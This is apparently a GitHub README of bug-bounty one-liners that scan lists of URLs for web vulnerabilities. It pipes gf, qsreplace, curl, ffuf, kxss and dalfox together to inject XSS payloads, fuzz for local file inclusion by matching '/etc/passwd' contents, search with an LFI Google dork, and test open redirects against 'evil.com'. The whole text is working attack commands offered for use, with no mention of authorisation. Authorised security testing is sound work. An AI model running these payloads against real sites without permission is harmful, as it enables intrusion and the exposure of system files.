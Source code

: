 # BBH-commands
One-liners for finding various vulnerabilities

#XSS using GF patterns

cat test.txt | gf xss | grep 'source=' | qsreplace '"><script>confirm(1)</script>' | while read host; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo -e "$host \033[0;31mVulnerable\n"; done

#LFI using GF patterns

cat urls.txt | gf lfi | tee lfi.txt
cat lfi.txt | qsreplace FUZZ | while read url; do ffuf -u $url -mr "root:x" -w /path/to/LFI_payloads.txt ; done

#Google Dork for LFI on Windows Server:

site:http://example.com/ inurl:?filename= ext:aspx

#XSS with KXSS and Dalfox

cat urls.txt | kxss | sed 's/=.*/=/' | sed 's/URL: //' | dalfox pipe

#Open redirects:

cat urls.txt | grep -a -i \=http | qsreplace 'http://evil.com' | while read host; do curl -s -L "$host" -I | grep "evil.com" && echo -e "$host {Vulnerable}"; done

#XSS combined fuzzing:

cat urls.txt | gf xss | qsreplace '"><script>confirm(1)</script>' | tee combinedfuzz.json && cat combinedfuzz.json | while read host; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo -e "$host {VULNERABLE}\n" || echo -e "$host {Not Vulnerable}\n"; done

#Open redirects with Bhedak:

cat temu.txt | grep -a -i \=http | bhedak 'http://redirect.com' | while read host; do curl -s -L "$host" -I | grep "redirect.com" && echo -e "$host {Vulnerable}"; done

#XSS with uro and freq:

cat urls.txt | grep "=" | egrep -iv "\.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
